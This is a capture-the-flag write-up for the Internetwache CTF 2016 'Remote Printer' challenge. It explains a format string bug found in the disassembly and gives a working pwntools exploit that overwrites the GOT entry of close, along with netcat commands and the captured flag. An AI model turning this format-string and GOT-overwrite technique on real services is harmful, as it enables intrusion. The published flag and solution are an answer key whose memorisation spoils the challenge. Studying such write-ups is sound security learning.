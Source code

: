 # Internetwache CTF 2016 : Remote Printer

**Category:** Exploit
**Points:** 80
**Solves:** 101
**Description:**

> Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.
>
>
> Attachment: [exp80.zip](./exp80.zip)
>
>
> Service: 188.166.133.53:12377


## Write-up

So this remote printer takes an address and a port and connects to the remote
service. It then reads some data and outputs it. Well let's just point it to
itself:

```
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:12377
Thank you, I'm trying to print 127.0.0.1:12377 now!
This is a remote printer!
```

The last line is the input from itself. So we probably need a listener
reachable via the internet.

The binary itself is rather small, it just consists of the `main` function and
`0x08048786`. The main function uses scanf to read the ip address and port and
calls the second function which connects to the given ip address and port.
Then receives up to `0x2000` bytes of data and then prints it. Let's take a
look at the later one:

```
0x08048815      6a00           push 0
0x08048817      6800200000     push 0x2000
0x0804881c      8d85e4dfffff   lea eax, [ebp-local_2055]
0x08048822      50             push eax
0x08048823      ff75f4         push dword [ebp - 0xc]
0x08048826      e885fdffff     call sym.imp.recv         ; recv 0x2000 to stack

[...]

0x08048844      83ec0c         sub esp, 0xc
0x08048847      8d85e4dfffff   lea eax, [ebp-local_2055]
0x0804884d      50             push eax
0x0804884e      e88dfcffff     call sym.imp.printf      ; input
0x08048853      83c410         add esp, 0x10
0x08048856      83ec0c         sub esp, 0xc
0x08048859      ff75f4         push dword [ebp - 0xc]
0x0804885c      e85ffdffff     call sym.imp.close
0x08048861      83c410         add esp, 0x10
0x08048864      90             nop
```

We can see that the buffer, which is located on the stack, is printed using
`printf`... oh. Classic format string vulnerability. Should be easy.

```
$ python2 -c 'print "ABCD" + ".%p"*100' | nc -vv -l -p 4444
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:X.X.X.X
Enter port:4444
Thank you, I'm trying to print X.X.X.X:4444 now!
ABCD.0xffffbcec.0x2000.(nil).(nil).(nil).(nil).0x44434241.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0xa.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil)
```

So it's definitely a format string vulnerability and we can see that at offset
7 is the start of our format string. So that's where we can put the addresses
we want to write to.

We can see that immediately after the call to `printf` there is a call to
`close`. So we do the usual: Overwrite `GOT` entry of `close` with something of
our liking to take over control flow. Because the organizers were nice they
left us some dead code lying around that will print us the flag at
`0x08048867`. So we'll just redirect control flow there.

```python
from pwn import *  # NOQA

velf = ELF("./RemotePrinter")
gotclose = velf.got["close"]

# uses two 2-byte writes to keep printed garbage at minimum
fmtstr = p32(gotclose)
fmtstr += p32(gotclose + 2)
target = 0x08048867
x = 0x0804 - 8
y = 0x8867 - 8 - x
fmtstr += "%{}c%8$hn%{}c%7$hn".format(x, y)

log.info("trying to write to got entry @ {}".format(hex(gotclose)))
log.info("overwriting with function {}".format(hex(target)))

log.info("using format string: \n" + hexdump(fmtstr))

with open("./payload", "wb") as f:
    f.write(fmtstr)
    f.write("\n")

# use with
# cat payload | nc -v -l -p 4444
```

And we have the flag:

```
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```

## Other write-ups and resources

* <https://github.com/0xbkth/ctf/blob/master/IW/exp80_IW/writeup.md>
* <https://www.xil.se/post/internetwache-2016-exp80-kbeckmann/>
* <https://github.com/Kileak/CTF/tree/master/2016/internetwache/exp/remoteprinter>
* <https://losfuzzys.github.io/writeup/2016/02/21/iwctf2016-remote-printer/>
* <https://0x90r00t.com/2016/02/22/internetwache-ctf-2016-exploit-80-remote-printer-write-up/>
* <https://www.whitehatters.academy/iw2016-ctf-exp80/>
* <https://github.com/ByteBandits/writeups/tree/master/internetwache-ctf-2016/exploit/remote-printer/sudhackar>
* [Spanish](https://blog.ka0labs.net/post/31/)
